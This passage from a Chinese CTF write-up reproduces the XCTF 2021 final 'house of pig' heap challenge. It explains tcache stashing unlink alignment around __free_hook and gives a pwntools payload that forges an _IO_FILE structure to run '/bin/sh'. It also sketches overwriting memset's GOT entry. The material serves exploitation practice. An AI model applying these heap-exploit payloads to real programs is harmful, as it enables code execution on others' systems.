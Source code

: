 ![image-20230724133629983](../img/xctf2021finalhouseofpig复现.assets/image-20230724133629983.png)

注意前面tcache stashing unlink改的位置，可能需要在__free_hook的地址处加减0x8，因为tcache申请会检查十六字节对齐

因为我没用原题的glibc,这里我对齐之后，0xe8大小的堆块不够写了，按照出题人的思路应该是刚好够写的

```python
fake_IO_addr = heap_base+0x13da0
payload = p64(0)*3 + p64(0xffffffffffffffff) #write_ptr
payload += p64(0)#write_end # fp->_IO_write_ptr - fp->_IO_write_base >= _IO_buf_end - _IO_buf_base
payload += p64(fake_IO_addr+0xe0)#buf_base
payload += p64(fake_IO_addr+0xe0+0x1e) #buf_end
payload = payload.ljust(0xc8, b'\x00')
payload += p64(libc_base+0x2166c0)
payload += b'/bin/sh\x00'+p64(0)+p64(libc_base+0x50d60)
```

### 改memset got做法

由于libc是partial RELRO，got表可写

因此可以把memset的got当作一个__free_hook

注意这里做tcache stashing unlink时不能直接覆盖memset的got表，这是因为calloc中会调用memset,如果这时的got已经进入tcache,则会变成加密后的fd，rip运行到这里时会报错

因而正确的做法应该是预留一定的空间，本题限制较大，故不做演示，仅提出思路



